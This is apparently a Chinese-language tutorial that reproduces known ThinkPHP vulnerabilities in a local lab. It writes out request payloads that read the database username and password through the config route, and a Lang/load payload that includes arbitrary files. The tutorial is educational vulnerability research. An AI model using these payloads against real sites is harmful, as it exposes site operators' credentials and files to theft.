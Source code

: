 1.  
搭建好  
thinkphp  
框架，使用  
phpstorm  
打开源码  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/b9ibb0kbHCIlnNxeT7FCVA8Hp7B3HBpCCe5liaLOc0bUybWFFITDsBB9YKXg1GHWt02E2gdx8ng9NsnpIREMtdnw/640?wx_fmt=png&from=appmsg "")  
  
2.  
想要知道  
thinkphp  
准确版本信息，可以全局搜索：  
think_version  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/b9ibb0kbHCIlnNxeT7FCVA8Hp7B3HBpCCQIXPHXPqAicazCrQaHFenlpZkLHyIzicNVG8HnbnQQLJSkMYmKP8bN1w/640?wx_fmt=png&from=appmsg "")  
  
3.  
获取到版本信息，搜索查看此版本产生的历史漏洞  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/b9ibb0kbHCIlnNxeT7FCVA8Hp7B3HBpCCqUff0OFy7s7JibRqPskxMqRs6LRhj9GmFkdialk3OeXZictpeEUg2icbiaA/640?wx_fmt=png&from=appmsg "")  
  
4.  
以上漏洞都是直接访问路由触发的。  
  
复现第一个漏洞：获取配置信息  
  
访问：?s=index/think\config/get&name=database.username  
  
成功获取数据库用户名  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/b9ibb0kbHCIlnNxeT7FCVA8Hp7B3HBpCCBU4wE6j6aMHNu5Asj6lEzhM4Cbk08IMKqxaUicWCBFIcibre668UZSrQ/640?wx_fmt=png&from=appmsg "")  
  
访问：?s=index/think\config/get&name=database.  
password   
成功获取数据库密码  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/b9ibb0kbHCIlnNxeT7FCVA8Hp7B3HBpCCZodNeAnvpyWQSjicbptxysp2kyvIsRvVhiate5l5GZMghBByotMMrP6A/640?wx_fmt=png&from=appmsg "")  
  
复现第二个漏洞：包含任意文件  
  
在  
public  
目录创建一个  
1.txt  
文件  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/b9ibb0kbHCIlnNxeT7FCVA8Hp7B3HBpCCTibVl3NLficjxPpYfDIqvjfiaIcUPLdkYQTgqhow4ib6uUVVOic941EiaWjA/640?wx_fmt=png&from=appmsg "")  
  
访问：  
?s=index/\think\Lang/load&file=1.txt  
     
包含  
1.  
txt  
文件  
  